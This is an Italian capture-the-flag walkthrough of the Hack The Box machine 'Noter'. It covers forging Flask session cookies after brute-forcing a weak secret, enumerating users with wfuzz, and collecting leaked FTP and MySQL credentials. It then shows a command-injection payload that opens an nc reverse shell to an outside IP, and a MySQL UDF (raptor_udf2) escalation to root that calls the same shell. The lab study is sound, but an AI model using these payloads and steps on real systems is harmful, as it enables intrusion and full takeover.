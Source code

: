 #+TITLE: HTB Noter
#+AUTHOR: Leonardo Tamiano

* Enumeration
** nmap
*** nmap -sC -sV noter
    #+begin_example
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-14 18:16 CEST
Stats: 0:00:00 elapsed
Nmap scan report for noter (10.129.56.41)
Host is up (0.12s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c6:53:c6:2a:e9:28:90:50:4d:0c:8d:64:88:e0:08:4d (RSA)
|   256 5f:12:58:5f:49:7d:f3:6c:bd:9b:25:49:ba:09:cc:43 (ECDSA)
|_  256 f1:6b:00:16:f7:88:ab:00:ce:96:af:a6:7e:b5:a8:39 (ED25519)
5000/tcp open  http    Werkzeug httpd 2.0.2 (Python 3.8.10)
|_http-title: Noter
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.13 seconds

#+end_example
*** nmap -p- noter
 #+begin_example

Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-14 18:16 CEST
Not shown: 65529 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
21/tcp    open     ftp
22/tcp    open     ssh
5000/tcp  open     upnp
23681/tcp filtered unknown
24133/tcp filtered unknown
51374/tcp filtered unknown

Nmap done: 1 IP address (1 host up) scanned in 727.87 seconds

 #+end_example

** webapp
*** registration request
    Possiamo registrarci nella webapp tramite l'url
    ~http://noter:5000/register~ con le credenziali
   
    #+begin_example
   leonardo:password
    #+end_example
   
    andando ad eseguire la seguente richiesta con ~curl~

    #+begin_src sh
curl 'http://noter:5000/register' \
  -H 'Proxy-Connection: keep-alive' \
  -H 'Cache-Control: max-age=0' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'Origin: http://noter:5000' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
  -H 'Referer: http://noter:5000/register' \
  -H 'Accept-Language: en-US,en;q=0.9' \
  --data-raw 'name=leonardo&email=leo%40test.it&username=leonardo&password=password&confirm=password' \
  --compressed \
  --insecure   
    #+end_src
   
    a questo punto possiamo entrare e vedere che le note possono essere
    visualizzate andando a vedere i seguenti URLs

    #+begin_example
http://noter:5000/note/3/
http://noter:5000/note/4/
http://noter:5000/note/5/   
    #+end_example

    dato che l'id finale dell'URL parte da 3, e viene incrementato di
    uno per ogni creazione di una nuova nota, questo significa che
    possiamo assumere che ci siano due note create da altri utenti.

   ---------------------------------

*** cookie management con flask-unsign
    Per gestire l'autenticazione la webapp utilizza un cookie

    #+begin_example
GET /dashboard HTTP/1.1
Host: noter:5000
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://noter:5000/login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=.eJwlx0sKwCAMBcCrhLf2BN6kFBHR9APWgFG6EO9eoathBvyRg16ssPsAtQW0x8iqMNikU6hMRV7Kcp6c6C5w0xn89au21c4GXbmW8DAsMksJNQnmByyPISk.YyICyQ.n5ga3I-6Mtp3T9pJF_rTiZzq0GQ
Connection: close
    
    #+end_example

    Per decodificare il cookie possiamo utilizzare un tool chiamato
    [[https://github.com/Paradoxis/Flask-Unsign.git][flask-unsign]].

    #+begin_src sh
leo@kali:~/repos/noter$ flask-unsign --decode --cookie '.eJwlx0sKwCAMBcCrhLf2BN6kFBHR9APWgFG6EO9eoathBvyRg16ssPsAtQW0x8iqMNikU6hMRV7Kcp6c6C5w0xn89au21c4GXbmW8DAsMksJNQnmByyPISk.YyICyQ.n5ga3I-6Mtp3T9pJF_rTiZzq0GQ'
{'_flashes': [('success', 'You are now logged in')], 'logged_in': True, 'username': 'leonardo'}    
    #+end_src

    Notiamo che il campo ~_flashes~ potrebbe non esserci, in quanto
    viene utilizzato dalla webapp per mostrare messaggi "flash" che
    poi spariscono e non sono più mostrati.

    #+begin_src sh
flask-unsign --decode --cookie 'eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoibGVvbmFyZG8ifQ.YyICyQ.OKZe_Q_KFFsmDNF1vi3Ewbl7pRU'
{'logged_in': True, 'username': 'leonardo'}    
    #+end_src

    Per trovare il segreto utilizzato per firmare il cookie possiamo
    procedere come segue
    
    #+begin_src sh
leo@kali:~/repos/noter$ flask-unsign --wordlist ~/repos/wordlists/rockyou.txt --unsign --cookie 'eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoibGVvbmFyZG8ifQ.YyICyQ.OKZe_Q_KFFsmDNF1vi3Ewbl7pRU' --no-literal-eval
[*] Session decodes to: {'logged_in': True, 'username': 'leonardo'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 17536 attempts
b'secret123'    
    #+end_src

    Come possiamo vedere, il segreto è ~secret123~.

    con questo segreto possiamo firmare dei nostri cookie
    arbitrary. AD esempio possiamo firmare il seguente cookie, che
    dice al server che siamo loggati come l'utente ~leo~.

    #+begin_src sh
leo@kali:~/repos/noter$ flask-unsign --sign --cookie "{'logged_in': True, 'username': 'leo'}" --secret "secret123"
eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoibGVvIn0.YyIFbg.KkT1F41O743dlVYSmjZ7Ztnzulk
    #+end_src

*** user enumeration con wfuzz
    Per enumerare gli utenti della macchina possiamo utilizzare
    l'information leakage introdotto dalla pagina di login.

    In particolare, un login con un username esistente ma una password
    sbagliata ritorna il valore "Invalid Login", mentre un login con
    un username non esistente e una password sbagliata ritorna il
    valore "Invalid credentials".

    Utilizzando un tool di web fuzzing come ~wfuzz~ siamo in grado di
    enumerare gli utenti del sistema.

    #+begin_example
leo@kali:~/repos/noter/data$ wfuzz -z file,xato-net-10-million-usernames.txt -d "username=FUZZ&password=" --ss "Invalid login" http://noter:5000/login
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

Target: http://noter:5000/login
Total requests: 8295455

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                          
=====================================================================

000000113:   200        68 L     110 W      2022 Ch     "blue"                                                                           
^C /usr/lib/python3/dist-packages/wfuzz/wfuzz.py:80: UserWarning:Finishing pending requests...

Total time: 0
Processed Requests: 390
Filtered Requests: 389
Requests/sec.: 0    
    #+end_example

    Abbiamo trovato l'utente ~blue~. Andandoci a creare un cookie con
    questo utente otteniamo
    
    #+begin_src sh
leo@kali:~/repos/noter/data$ flask-unsign --sign --cookie "{'logged_in': True, 'username': 'blue'}" --secret "secret123"
eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYmx1ZSJ9.YyIJGA.NQCbWG_TsjwWSqoYAJ5tiHZRNoQ    
    #+end_src

    e impostandolo come cookie vediamo le note di blue.

*** blue's notes

    - *Noter Premium Membership*
      
      #+begin_example

    Hello, Thank you for choosing our premium service. Now you are capable of
doing many more things with our application. All the information you are going
to need are on the Email we sent you. By the way, now you can access our FTP
service as well. Your username is 'blue' and the password is 'blue@Noter!'.
Make sure to remember them and delete this.  
(Additional information are included in the attachments we sent along the
Email)  
  
We all hope you enjoy our service. Thanks!  
  
ftp_admin      
      #+end_example
    
    - *Before the weekend*

      #+begin_example
Delete the password note  
Ask the admin team to change the password      
      #+end_example

*** code review for RCE
    La versione del codice che gira nel backup è il backup più recente
    tra i due, ovvero ~app_backup_1638395546.zip~ in quanto contiene
    anche il codice per la gestione degli endpoint tipo ~/export_note~.

    Come possiamo vedere, la funzione pericolosa è la funzione
    ~export_note_remote~ in quanto contiene la chiamata a ~subprocess.run~
    
    #+begin_src python
r = pyrequest.get(url,allow_redirects=True)
rand_int = random.randint(1,10000)
command = f"node misc/md-to-pdf.js  $'{r.text.strip()}' {rand_int}"
subprocess.run(command, shell=True, executable="/bin/bash")
    #+end_src

    Possiamo controllare il valore di ~r.text.strip()~ in quanto è
    ottenuto facendo una GET ad un ~url~ che scelgiamo noi. L'unico
    filtro che viene effettuato è dalla funzione ~parse_url~

    #+begin_src python
    if check_VIP(session['username']):
        try:
            url = request.form['url']

            status, error = parse_url(url)

            if (status is True) and (error is None):
    
    #+end_src

    La funzione però non fa altro che controllare che l'url inizia con
    "http://" o "https://" e che finisca con ".md"

    #+begin_src python
def parse_url(url):
    url = url.lower()
    if not url.startswith ("http://" or "https://"):
        return False, "Invalid URL"    

    if not url.endswith('.md'):
            return False, "Invalid file type"

    return True, None
    
    #+end_src

    Per exploitare infine dobbiamo capire come bypassare la
    costruzione della stringa. L'idea è quella di utilizzare il
    seguente payload
    
    #+begin_example
' ; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|/bin/nc 10.10.14.29 4321 >/tmp/f #     
    #+end_example

    Da mettere in un file ~hello.md~, attivare un web server, e
    richiedere la risorsa dalla pagina ~export notes~ per attivare una
    reverse shell.

** ftp
*** ftp as blue
    Utilizzando le credenziali possiamo loggare nel server ftp.
    
    #+begin_example
blue:blue@Noter!    
    #+end_example

    #+begin_src sh
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 1002     1002         4096 May 02 23:05 files
-rw-r--r--    1 1002     1002        12569 Dec 24  2021 policy.pdf
226 Directory send OK.
ftp> get policy.pdf
local: policy.pdf remote: policy.pdf
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for policy.pdf (12569 bytes).
226 Transfer complete.
12569 bytes received in 0.00 secs (4.4085 MB/s)    
    #+end_src

    Possiamo vedere un file ~policy.pdf~.

    Leggendolo, c'è scritto che le password di default hanno la struttura
    
    #+begin_example
    username@site_name!
    #+end_example

*** ftp as ftp_admin
    Utilizzando le credenziali di defualt dell'utente ~ftp_admin~ possiamo loggare nel server ftp.

    #+begin_example
ftp_admin:ftp_admin@Noter!    
    #+end_example

    #+begin_src sh
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 1003     1003        25559 Nov 01  2021 app_backup_1635803546.zip
-rw-r--r--    1 1003     1003        26298 Dec 01  2021 app_backup_1638395546.zip
226 Directory send OK.    
    #+end_src

    Come possiamo vedere abbiamo due zip, che sono dei backup
    dell'applicazione che gira nel backend.

** mysql
*** creds
    Prese da ~app_backup_1635803546/app.py~

    #+begin_src python
# Config MySQL
app.config['MYSQL_HOST'] = 'localhost'
app.config['MYSQL_USER'] = 'root'
app.config['MYSQL_PASSWORD'] = 'Nildogg36'
app.config['MYSQL_DB'] = 'app'
app.config['MYSQL_CURSORCLASS'] = 'DictCursor'    
    #+end_src
* PrivEsc
** mysql
   Per vedere la presenza del processo mysql
   
   #+begin_example
svc@noter:/tmp$ netstat -ltpn
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:5000            0.0.0.0:*               LISTEN      1248/python3        
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::21                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                      
   #+end_example

   Ci possiamo loggare con le creds trovate prima
   
   #+begin_src sh
mysql -u root -pNildogg36      
   #+end_src

   Per vedere che il processo mysql gira come root possiamo utilizzare
   la keyword ~OUTIFLE~.
   
   #+begin_src sql
select 1 into OUTFILE '/tmp/test2';
   #+end_src

   #+begin_src sh
svc@noter:/tmp$ ls -lha /tmp/test2
-rw-r--r-- 1 root root 2 Sep 14 18:07 /tmp/test2   
   #+end_src

   ------------------------
   
   Per diventare root l'idea è quella di caricare in memoria una
   libreria dinamica (~.so~). Questo funziona in quanto il processo
   mysql che gira in remoto gira come l'utente ~root~ e quindi posso
   scrivere in una sottocartella di ~/usr/lib~ su cui tipicamente solo
   root può scrivere.

   Riferimento: [[https://raw.githubusercontent.com/1N3/PrivEsc/master/mysql/raptor_udf2.c][raptor_udf2.c]]

   Dopo aver caricato il sorgente nella macchina remota tramite ~nc~ lo
   compiliamo in un ~.so~ nella cartella ~/tmp~, andando quindi a creare
   il file ~/tmp/raptor_udf2.so~

   #+begin_src sh
gcc -g -c raptor_udf2.c
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc   
   #+end_src

   e poi effettuiamo il login in ~mysql~ con le credenziali prese dalla webapp

   #+begin_src sh
mysql -u root -pNildogg36   
   #+end_src

   Una volta dentro effettuiamo i seguenti comandi

   #+begin_src sql
use mysql;
create table foo(line blob);
insert into foo values(load_file('/tmp/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
select * from mysql.func;   
   #+end_src

   Dove la path ~'/usr/lib/x86_64-linux-gnu/mariadb19/plugin/~ è stata
   ottenuta dal seguente comando

   #+begin_example
MariaDB [mysql]> show variables like '%plugin%';
+-----------------+---------------------------------------------+
| Variable_name   | Value                                       |
+-----------------+---------------------------------------------+
| plugin_dir      | /usr/lib/x86_64-linux-gnu/mariadb19/plugin/ |
| plugin_maturity | gamma                                       |
+-----------------+---------------------------------------------+
2 rows in set (0.002 sec)   
   #+end_example
   
   alla fine possiamo chiamare una reverse shell tramite la funzione
   caricata ~do_system()~
   
   #+begin_src sql
select do_system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|/bin/nc 10.10.14.29 4321 >/tmp/f   ');   
   #+end_src

   per ottenere una reverse shell da root.

* Flags
